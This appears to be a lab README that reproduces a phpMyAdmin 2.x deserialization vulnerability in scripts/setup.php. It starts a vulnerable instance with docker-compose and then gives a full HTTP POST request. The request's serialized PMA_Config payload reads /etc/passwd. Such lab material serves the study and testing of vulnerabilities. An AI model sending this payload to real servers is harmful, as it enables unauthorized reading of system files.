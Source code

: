 # Phpmyadmin Scripts/setup.php Deserialization Vulnerability (WooYun-2016-199433)

[中文版本(Chinese version)](README.zh-cn.md)

Affected version: 2.x

## Setup

Run the following command to start phpmyadmin:

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you will see the phpmyadmin home page. Because there is no connection to the database, we will get an error. But this vulnerability is not related to the database, so just ignore.

## Exploit

Send the following package to read `/etc/passwd`:

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![](1.png)
